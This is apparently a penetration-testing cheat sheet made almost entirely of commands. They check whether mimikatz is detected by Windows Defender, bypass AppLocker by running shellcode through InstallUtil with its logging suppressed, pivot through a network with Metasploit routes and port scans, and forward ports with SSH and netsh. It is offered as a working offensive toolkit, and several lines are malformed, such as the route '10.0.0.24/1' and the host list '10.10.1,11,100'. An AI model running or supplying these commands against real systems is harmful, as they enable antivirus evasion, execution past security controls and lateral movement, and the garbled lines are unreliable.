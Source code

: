 ## Malware Checking
https://github.com/matterpreter/defendercheck
	defendercheck.exe .\mimikatz.exe 
## Get around AppLocker
installUtil /U shellcode.exe 
## AppLocker
Get-Service AppIDSvc | Start-Service
Get-Service AppIDSvc
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -name installutil.exe -Path C:\Windows\Microsoft.NET -Recurse 
### Compile custom msfvenom to use with AppLocker Bypass
Compile Shellcode.cs 
C :\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U shellcode.exe

## Metasploit 
### Route Pivoting
portfwd add -l 8000 -r 10.10.10.100 -p 80 
### ROute 
background
route add 10.10.10.0/24 1 
### portscan through
run arp_scanner -r 10.10.10.0/24
background 
route add 10.0.0.24/1
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.1,11,100
set PORTS 22,25,80,135,445,631
## SSH Port Forwarding
ssh -L 8000:10.10.10.100:80 victortimko@10.10.10.11
## NetSH Port Forwarding
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100
